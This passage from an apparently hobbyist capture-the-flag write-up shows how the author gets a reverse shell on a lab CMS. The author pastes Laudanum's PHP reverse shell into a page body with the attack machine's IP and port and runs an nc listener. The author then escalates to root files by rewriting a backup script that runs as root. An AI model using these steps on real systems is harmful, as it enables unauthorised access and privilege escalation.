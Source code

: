 Important steps to follow:

- Select the **Text format** as `PHP code`
- Copy the `php-reverse-shell` code to the **Body**. On Kali Linux, it can be found in `/usr/share/laudanum/php/php-reverse-shell.php`
- Edit the `php-reverse-shell` code and modify the following lines:
    - $ip = '192.168.56.102'; // Attack machine IP
        
    - $port = 8888; // Desired port
        
- Open a shell and run `nc -lvp 8888` on attack machine to listen for a reverse shell

Once these steps are completed. Click on the **Preview** button and watch the magic unfold!

![Screen Shot 2019-09-04 at 12.29.50 AM.png](images/screen-shot-2019-09-04-at-12.29.50-am.png)

Reverse shell! I am finally `www-data`. Hooray!

Okay... back to the game plan. We simply need to modify `/opt/scripts/backups.sh` with the following lines of code:

#!/bin/bash
cat /root/\* > /tmp/arj/flag.txt

![Screen Shot 2019-09-04 at 12.53.32 AM.png](images/screen-shot-2019-09-04-at-12.53.32-am.png)

Once this was done, I simply monitored my temporary directory `/tmp/arj` for a file called `flag.txt`.
